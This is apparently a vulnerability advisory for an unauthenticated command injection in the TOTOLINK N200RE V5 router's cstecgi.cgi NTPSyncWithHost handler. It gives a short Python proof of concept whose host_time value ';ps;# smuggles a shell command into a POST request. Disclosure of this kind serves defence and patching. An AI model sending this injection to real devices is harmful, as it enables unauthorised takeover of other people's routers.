 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `NTPSyncWithHost` handler function of  `cstecgi.cgi`. The value of the `host_time` parameter will be spliced ​​into the `date -s '%s'` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need auth.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "NTPSyncWithHost",
    "host_time": "';ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)